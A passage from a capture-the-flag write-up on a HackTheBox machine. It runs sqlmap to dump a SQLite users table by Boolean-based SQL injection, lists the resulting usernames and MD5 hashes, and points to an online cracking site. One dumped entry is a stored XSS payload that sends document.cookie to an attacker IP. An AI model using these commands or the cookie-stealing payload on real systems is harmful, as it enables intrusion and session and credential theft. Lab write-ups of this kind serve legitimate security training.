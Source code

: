 Two SQL injections are discovered:

    Blind Boolean-based
    Time-based (SQLite)

Now we proceed to list users

```bash
sqlmap -u "http:cat.htb/accept_cat.php" --data "catId=1&catName=catty" --cookie="PHPSESSID=jce8bkemt9o56ut4ucipjbbov1" -p catName --level=5 --risk=3 
--dbms=SQLite --technique=B -T "users" --threads=4 --dump
```

```bash
axel:d1bbba3670feb9435c9841e46e60ee2f
rosa:ac369922d560f17d6eeb8b2c7dec498c
robert:42846631708f69c00ec0c0a8aa4a92ad
fabian:39e153e825c4a3d314a0dc7f7475ddbe
jerryson:781593e060f8d065cd7281c5ec5b4b86
larry:1b6dce240bbfbc0905a664ad199e18f8
peter:e41ccefa439fc454f7eadbf1f139ed8a
angel:24a8ec003ac2e1b3c5953a6f95f8f565
jobert:88e4dceccd48820cf77b5cf6c08698ad
<img src=x onerror=this.src="http://10.10.14.16:8000/"+btoa(document.cookie)>:bfd59291e825b5f2bbf1eb76569f8fe7
~
```

Seeing that all users have hashes, we can try them one by one, which is the most reliable, or go to a cracking page called [CrackStation](https://crackstation.net/) that cracks all the hashes together.

![Texto alternativo](/assets/cat/Screenshot%202025-02-03%20213458.jpg)
